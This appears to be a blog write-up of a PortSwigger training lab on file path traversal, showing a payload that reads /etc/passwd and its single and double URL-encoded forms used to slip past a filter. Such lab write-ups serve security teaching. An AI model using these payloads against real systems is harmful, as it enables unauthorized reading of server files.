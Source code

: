 ```yaml
---
layout: post
title:  "PortSwigger - Directory Traversal - Lab 4"
date:   2024-06-10 00:00
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [directory-traversal]
categories: [PortSwigger]
---
```


# Lab 4 - Directory Traversal - File path traversal, traversal sequences stripped with superfluous URL-decode
><b>Lab Objective:</b>
<br/><br/>
This lab contains a path traversal vulnerability in the display of product images.
The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.<br/><br/>
To solve the lab, retrieve the contents of the `/etc/passwd` file.
<br/>
<br/>
<b>Reference:</b>
<br/>
<a href="https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode">Port Swigger - Lab 4</a>
<br/>
<a href="https://academy.ranakhalil.com/courses/1491236/lectures/44691842">Rana Khalil - Lab 4</a>
<br/>

### Solution
<hr/>

#### 1. No encoding:

![Directory Traversal - Lab 4 - No encryption](/images/portswigger/DirectoryTraversal/lab4/directory-traversal-lab4-no-encryption.png)


#### 2. Double url encode the payload

```
../../../../etc/passwd
```
#### First URL encoding:
```
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64%20
```

![Directory Traversal - Lab 4 - First Url Encoding](/images/portswigger/DirectoryTraversal/lab4/directory-traversal-lab4-first-encryption.png)

#### Second URL encoding:
```
%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34 
```
![Directory Traversal - Lab 4 - Second Url Encoding](/images/portswigger/DirectoryTraversal/lab4/directory-traversal-lab4-second-encryption.png)
<hr/>